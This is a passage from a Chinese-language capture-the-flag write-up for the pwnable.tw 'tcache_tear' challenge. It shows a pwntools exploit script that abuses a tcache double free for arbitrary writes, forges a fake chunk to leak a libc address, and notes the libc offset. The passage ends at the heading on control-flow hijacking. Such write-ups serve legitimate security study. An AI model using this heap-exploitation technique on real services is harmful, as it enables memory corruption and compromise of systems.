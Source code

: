 ```python
	libc = ELF("./libc-tcache.so")
	io = remote("chall.pwnable.tw",10207)

################################################
s = io.send                                    #
sl = io.sendline                               #
sa = io.sendafter                              #
sla = io.sendlineafter                         #
r = io.recv                                    #
rl = io.recvline                               #
ru = io.recvuntil                              #
it = io.interactive                            #
################################################

init = lambda name : sla("Name:",name)
malloc = lambda size,data : (sla("choice :","1"),sla("Size:", str(size)),sla("Data:",data))
free = lambda : sla("choice :","2")
info = lambda : sla("choice :","3")

def aaw(len,addr,data):
    malloc(len,"aaa")
    free()
    free()
    malloc(len,p64(addr))
    malloc(len,"aaa")
    malloc(len,data)
    
name_bss = 0x602060

init(p64(0)+p64(0x501))
aaw(0x50,name_bss+0x500,(p64(0)+p64(0x21)+p64(0)*2)*2)
aaw(0x60,name_bss+0x10,'a')
free()

info()
io.recvuntil("Name :"); io.recv(0x10)
libc_addr = u64(io.recv(8))
log.warn("leak:0x%x"%libc_addr)

gdb.attach(io,'b * 0x400c07')
io.interactive()
```

这里采用：`io.recvuntil("Name :"); io.recv(0x10)`，而不直接采用：`io.recv(0x16)`的原因是，`Name :`这6个字符和后面的内容是两条语句打印，在远程攻击的时候可能会出现数据先后到达延迟的io问题。

需要注意的是，我们这里使用的是glibc-all-in-one + patchelf 得到的glibc 2.27的环境，虽然我们gdb tcache_tear时glibc地址每次都一样，但是我们运行时glibc的基址是会变化的，所以我们需要脚本输出后直接进入gdb用vmmap来得到基址并计算偏移

本地调试得到偏移为 0x3ebca0

### 控制流劫持
